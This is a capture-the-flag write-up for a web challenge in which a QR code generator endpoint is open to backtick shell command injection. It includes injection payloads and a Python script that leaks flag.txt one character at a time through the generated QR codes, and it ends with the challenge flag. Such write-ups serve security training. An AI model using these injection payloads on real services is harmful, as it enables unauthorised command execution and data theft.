 # QR-Generator
Web

> I was playing around with some stuff on my computer and found out that you can generate QR codes! I tried to make an online QR code generator, but it seems that's not working like it should be. Would you mind taking a look?
>
> http://challs.houseplant.riceteacatpanda.wtf:30004
> 
> Hint! For some reason, my website isn't too fond of backticks...

The backticks seem to indicate the typical bash injection.

The endpoint where the actual QR code is processed is at `/qr?text=<text>`.

Scanning some sample QR codes reveals that it only encodes the first letter of whatever is encoded. On errors, it redirects to `/error.jpg`.

We can try injecting ``/qr?text=`ls` `` (the extra space isn't necessary, markdown just doesn't like literal backticks). Scanning the generated QR code gives us an `R`.

To get the full character, we can iterate through characters of the stdout of the command: `<cmd> | head -c n | tail -c 1` where n is the n'th character of stdout.

We can use this trick with `ls` to get the directory listing. We find that there is a `flag.txt`. The following script extracts the contents of `flag.txt`.

```python
from pyzbar.pyzbar import decode
from PIL import Image

import urllib.request


url = "http://challs.houseplant.riceteacatpanda.wtf:30004/qr?text=`cat%20flag.txt|%20head%20-c%20{}%20|%20tail%20-c%201`"

i = 1

while True:
    temp = url.format(i)
    urllib.request.urlretrieve(temp, "qr.jpg")

    print(decode(Image.open("qr.jpg"))[0].data.decode(), end="")

    i+=1
```

Flag: `rtcp{fl4gz_1n_qr_c0d3s???_b1c3fea}`
